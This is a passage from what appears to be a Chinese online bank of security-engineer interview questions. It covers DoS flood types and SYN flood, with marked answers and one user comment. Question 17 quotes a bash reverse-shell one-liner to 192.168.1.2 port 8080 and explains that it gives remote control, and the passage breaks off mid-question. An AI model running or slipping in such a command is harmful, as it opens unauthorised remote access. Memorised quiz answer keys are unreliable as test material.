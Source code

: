 ```cpp
DNSQuery Flood
```

```cpp
UDPFlood
```

本题知识点

运维工程师 小米 安全工程师 2019

## 16

关于 SYNFlood 攻击，以下说法正确的是（）

正确答案: A C   你的答案: 空 (错误)

```cpp
此种攻击方式不需要建立完整的 TCP 三次握手
```

```cpp
此种攻击方式是在结束 TCP 链接过程中，由客户端发起的
```

```cpp
此种攻击方式是客户端主动发起 SYN 半连接引起的
```

```cpp
此种攻击方式是服务端主动发起 SYN 半连接引起的
```

本题知识点

运维工程师 小米 安全工程师 2019

讨论

[牛客 802910036 号](https://www.nowcoder.com/profile/802910036)

```cpp
此种攻击方式是客户端主动发起 SYN 半连接引起的,还没到 TCP 链接阶段。
```

发表于 2021-08-19 15:48:37

* * *

## 17

关于这条命令，说法正确的是
bash -i >& /dev/tcp/192.168.1.2/8080 0>&1

正确答案: B C   你的答案: 空 (错误)

```cpp
这不是一个反弹 shell
```

```cpp
通过在 192.168.1.2 上监听 8080，可以远程操作运行了此命令的机器
```
